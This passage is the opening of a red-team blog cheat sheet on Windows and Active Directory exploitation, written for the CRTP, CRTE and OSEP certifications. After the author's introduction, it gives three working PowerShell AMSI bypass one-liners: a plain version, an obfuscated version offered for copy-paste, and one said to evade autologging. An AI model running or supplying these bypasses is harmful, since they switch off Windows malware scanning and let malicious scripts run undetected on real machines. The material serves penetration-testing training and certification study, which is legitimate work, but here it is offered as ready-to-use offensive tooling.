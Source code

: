 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [casvancooten.com](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)

_Updated **March 8th, 2021**_

_This blog post has been updated based on some tools and techniques from Offensive Security’s PEN-300 course (for the accompanying OSEP certification). Notable changes have been made in the sections on delegation, inter-forest exploitation, and lateral movement through MSSQL servers. Some other changes and clarifications have been made throughout the post._

Since I recently completed my CRTP and CRTE exams, I decided to compile a list of my most-used techniques and commands for Microsoft Windows and Active Directory (post-)exploitation. It is largely aimed at completing these two certifications, but should be useful in a lot of cases when dealing with Windows / AD exploitation.

That being said - it is _far from_ an exhaustive list. If you feel any important tips, tricks, commands or techniques are missing from this list just get in touch. I will try to keep it updated as much as possible!

Many items of this list are shamelessly stolen from Nikhil Mittal and the CRTP/CRTE curricula, so big thanks to them! If you are looking for the cheat sheet and command reference I used for OSCP, please refer to [this post](https://cas.vancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/).

_Note: I tried to highlight some poor OpSec choices for typical red teaming engagements with 🚩. I will likely have missed some though, so, understand what you are running before you run it!_

General
-------

### PowerShell AMSI Bypass

Patching AMSI will help bypass AV warnings triggered when executing PowerShell scripts that are marked as malicious (such as PowerView). Do not use as-is in covert operations, as they will get flagged 🚩. Obfuscate, or even better, eliminate the need for an AMSI bypass altogether by altering your scripts to beat signature-based detection.

‘Plain’ AMSI bypass:

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true) 
```

Obfuscation example for copy-paste purposes:

```
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ) 
```

Another bypass, which is not detected by PowerShell autologging:

```
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True) 
```
